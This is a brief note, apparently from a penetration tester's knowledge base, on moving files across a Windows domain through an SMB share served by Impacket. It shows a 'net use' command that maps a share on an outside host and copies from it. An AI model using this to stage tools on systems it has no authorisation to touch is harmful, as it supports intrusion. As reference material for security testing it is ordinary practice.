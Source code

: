 A SMB share can be used across an entire domain
1. [[3. Exploitation/Operating System Specific/Windows/Tooling/Impacket|Impacket]] SMB server share
2. Net Use

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

